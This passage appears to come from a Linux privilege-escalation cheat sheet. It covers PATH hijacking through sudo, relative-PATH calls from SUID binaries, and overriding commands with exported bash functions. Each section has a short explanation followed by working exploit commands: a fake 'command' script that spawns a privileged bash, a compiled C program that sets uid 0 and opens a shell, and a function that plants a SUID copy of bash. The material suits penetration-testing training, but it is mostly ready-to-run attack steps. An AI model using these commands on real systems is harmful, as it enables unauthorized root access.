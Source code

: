 **Exploit**
Create a custom script named after the `nopasswd` command
```
echo '/bin/bash -p' > /tmp/command
chmod +x /tmp/command
```
Run it
```bash
sudo PATH=/tmp:$PATH command
```

<br>

## Relative PATH - call to an executable
> A relative PATH vulnerability occurs when a script or binary calls another executable (like service) without specifying its full path. This allows attackers to create a malicious executable with the same name and manipulate the PATH variable to escalate privileges, especially if the vulnerable script is SUID.

**Test**
> Look for scripts/binaries calling executables without full paths
> Imagine `/home/user/vulnerable` calls the `service` binary without specifying the full path
```bash
strings /home/user/vulnerable
```

**Exploit**
Create a custom executable
```bash /tmp/service
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
```
Manipulate the `PATH` and execute the vulnerable script/binary
```bash
export PATH=/tmp:$PATH # because our script called service is found in /tmp
/home/user/vulnerable
```

<br>

## Relative PATH - call to a shell function
> This exploit leverages the ability to override a system command with a shell function. When a script or binary calls a command without specifying its full path, you can define a function with the same name to execute malicious code instead. If combined with a SUID binary, this can lead to privilege escalation.

**Test**
> Look for scripts/binaries calling executables without full paths
> Imagine `/home/user/vulnerable` calls the `service` binary without specifying the full path
```bash
strings /home/user/vulnerable
```

**Exploit**
Create a malicious function
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
Export the function
```bash
export -f /usr/sbin/service
```
Run the script/binary that calls the service
```bash
/home/user/vulnerable
```
